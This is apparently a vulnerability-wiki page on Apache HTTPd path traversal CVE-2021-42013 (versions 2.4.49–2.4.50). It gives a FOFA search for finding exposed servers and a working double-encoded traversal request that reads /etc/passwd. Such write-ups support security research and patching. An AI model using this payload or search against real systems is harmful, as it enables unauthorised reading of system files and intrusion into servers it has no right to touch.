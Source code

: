 ```yaml
---
title: Apache HTTPd path crossing vulnerability CVE-2021-42013
---
```


# Apache HTTPd path crossing vulnerability CVE-2021-42013

## Vulnerability Description

Apache HTTPD is an HTTP server that can run PHP web pages through mod_php. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache HTTPd version 2.4.49~2.4.50</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://fofa.info/result?qbase64=c2VydmVyPSJBcGFjaGUvMi40LjQ5IiA%3D">server="Apache/2.4.49" </a-button>
</a-checkbox>

## Vulnerability reappears

Get the Apache version through the response package

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633685599184-d9c836db-1324-49ae-a642-702c8b5bce78-20220308094051147.png)

Verify POC

```php
/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633686079889-61449308-0e08-44e8-8f28-63889158f769-20220308094051256.png)